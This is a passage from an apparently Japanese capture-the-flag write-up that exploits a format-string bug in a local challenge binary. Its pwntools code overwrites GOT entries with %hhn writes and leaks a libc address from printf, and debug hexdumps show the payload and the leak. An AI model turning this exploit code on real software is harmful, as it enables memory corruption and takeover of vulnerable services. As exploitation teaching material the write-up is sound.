 ```python
    assert len(payload) < 0x10
    payload = payload.ljust(0x10, b'a')
    payload += p64(where)
    r.send(payload)
    ret = r.recvrepeat(TIME)
    assert(len(ret) == 0x1000)
    return ret

aaw(elf.got.exit, elf.sym.main)
ret = aar(elf.got.printf)
leak = u64(ret[1:].split(b'||')[0].ljust(8, b'\x00'))
print(f'leak:{leak:x}')
r.interactive()
```

```
    000002f0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 40  │    │    │    │   @│
    00000300  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000003f0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 25  │    │    │    │   %│
    00000400  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00001000
[DEBUG] Sent 0x28 bytes:
    00000000  25 31 30 24  73 7c 7c 25  34 30 38 39  63 61 61 61  │%10$│s||%│4089│caaa│
    00000010  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000020  18 40 40 00  00 00 00 00                            │·@@·│····│
    00000028
[DEBUG] Received 0x1000 bytes:
    00000000  24 70 97 c0  66 ba 7f 7c  7c 20 20 20  20 20 20 20  │$p··│f··|│|   │    │
    00000010  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00001000
leak:7fba66c09770
[*] Switching to interactive mode
$  
```

無事出てきてくれました。あとは好きに書き込めばおしまいです。ここではgotを差し替えてみます。(正確には初回以降のaawも`0x1000-total`でよいが、そもそも出力もいらないので数えなくても良い) 

```python
from pwn import *
context.log_level = 'debug'
r = remote('127.0.0.1', 31337)
elf = ELF("./chal")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

TIME = 0.8
def aaw(where, what, leng=6):
    total = 0
    payload = b''
    offset = 0
    for i in range(leng):
        c = ((what >> (i * 8)) - offset) % 0x100
        if c == 0:
            c = 0x100
        payload += f"%{c}c%{i+16}$hhn".encode()
        offset += c
        total += c
    payload += f"%{0x1000-total+1}c".encode()
    payload = payload.ljust(0x50, b'\x00')
    for i in range(leng):
        payload += p64(where + i)
    payload = payload.ljust(0x100, b'\x00')
```